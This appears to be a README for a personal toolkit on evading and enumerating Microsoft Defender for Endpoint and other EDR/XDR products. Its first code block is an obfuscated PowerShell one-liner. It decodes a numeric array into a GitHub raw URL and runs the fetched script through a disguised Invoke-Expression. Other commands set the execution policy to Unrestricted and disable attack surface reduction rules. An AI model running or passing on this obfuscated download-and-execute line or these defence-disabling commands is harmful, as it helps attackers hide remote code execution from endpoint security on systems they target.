

# fkxdr-mindmaps for exploiting and bypassing EDR/XDR


This is a small place about hosting my personal techniques needed for real-life scenarios, focused on EDR and XDR.
  


## Table of Contents
Enumeration of MDE
* [Defender for Endpoint](#Defender-for-Endpoint)
* [ASR Rules](#ASR-Rules)
* [Smart Screen](#Smart-Screen)

## Enumeration of MDE
### Defender for Endpoint

A collection of enumeration procedures.

* ps1-obfuscator and fkmde:
  ```powershell
  powershell -Command "new-alias ravnl curl; $bcutn = @(8891,8903,8903,8899,8902,8845,8834,8834,8901,8884,8906,8833,8890,8892,8903,8891,8904,8885,8904,8902,8888,8901,8886,8898,8897,8903,8888,8897,8903,8833,8886,8898,8896,8834,8889,8894,8907,8887,8901,8834,8889,8894,8896,8887,8888,8834,8896,8884,8892,8897,8834,8889,8894,8896,8887,8888,8833,8899,8902,8836); $qsnln = ''; foreach ($asciiValue in $bcutn) { $decodedChar=[char]($asciiValue-8787); $qsnln+=$decodedChar; }; .([char](9992-9887)+'e'+'x')(ravnl -useb $qsnln)"
  ```

ps. if unable to run the script on the current system, an execution policy has to be set.

```
Set-ExecutionPolicy Unrestricted -Scope CurrentUser
```


## ASR Rules

A collection of PoC's and scripts to test ASR rules and implementations.


#### * officemacro32.docm (d4f940ab-401b-4efc-aadc-ad5f3c50688a / 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b)

ps. If Microsoft is blocking the document due an untrusted source, make sure to check the box in properties to trust.

Enable & disable ASR rules
```
Add-MpPreference -AttackSurfaceReductionRules_Actions Enabled -AttackSurfaceReductionRules_Ids 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b
Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b

Add-MpPreference -AttackSurfaceReductionRules_Actions Enabled -AttackSurfaceReductionRules_Ids d4f940ab-401b-4efc-aadc-ad5f3c50688a
Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids d4f940ab-401b-4efc-aadc-ad5f3c50688a
```


#### * wmiprocess.ps1 (d1e49aac-8f56-4280-b9ba-993a6d77406c )

Enable & disable ASR rules
```
Add-MpPreference -AttackSurfaceReductionRules_Actions Enable -AttackSurfaceReductionRules_Ids d1e49aac-8f56-4280-b9ba-993a6d77406c #Enable Block process creations originating from PSExec and WMI commands
Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids d1e49aac-8f56-4280-b9ba-993a6d77406c #Disable Block process creations originating from PSExec and WMI commands
```
  
## Smart Screen

A collection of smart screen test links.

* Smart Screen Test: https://commandcontrol.smartscreentestratings.com/  
* Smart Screen Test: https://smartscreentestratings2.net  
* Smart Screen Phishing: https://demo.smartscreen.msft.net/phishingdemo.html  
* Smart Screen Malware: https://demo.smartscreen.msft.net/other/malware.html  
* Smart Screen Untrusted: https://demo.smartscreen.msft.net/download/malwaredemo/freevideo.exe  
* Smart Screen Exploit: https://demo.smartscreen.msft.net/other/exploit.html


